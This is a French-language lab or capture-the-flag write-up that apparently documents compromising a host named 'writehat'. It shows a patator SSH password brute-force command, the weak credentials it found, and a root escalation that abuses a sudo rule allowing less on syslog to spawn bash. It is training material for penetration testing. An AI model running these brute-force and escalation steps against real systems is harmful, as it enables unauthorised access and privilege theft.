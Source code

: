`patator ssh_login host=172.31.7.83 user=<user> password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'`

On a pu trouver les mots de passe suivants:

| User | Mot de passe |
| ---  | ------------ |
| student | **sunshine**  |
| chibollo | **password** |

Les étapes suivantes ont été faites pour élever les privilèges vers le compte **root** à partir d'user **student**:

```
└─$ ssh student@@172.31.7.83
student@172.31.7.83's password: sunshine
```

En tant que **student**, on a éxécuté la commande `sudo -l` pour voir les commandes qui sont éxécuté avec l'élévation de privilèges:

```bash
student@writehat:~$ sudo -l 

Matching Defaults entries for student on writehat:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User student may run the following commands on writehat:
    (root) NOPASSWD: /usr/bin/less /var/log/syslog
```

Comme ça on peut voir qui la commande: **_/usr/bin/less /var/log/syslog_** peut être éxécuté comme **root** normalement:

`sudo -u root /usr/bin/less /var/log/syslog`

Dans **less** on peut éxécuter des commandes en ajoutant le char "!", donc il suffit d'éxécuter **bash** ! 

Ce qui nous donne root:  
**<span style="color:red">root</span><span style="color:#0af">@writehat:/home/student</span> <span style="color:green">✔</span> # echo "I am root!"**

![IMROOT](imroot.png)
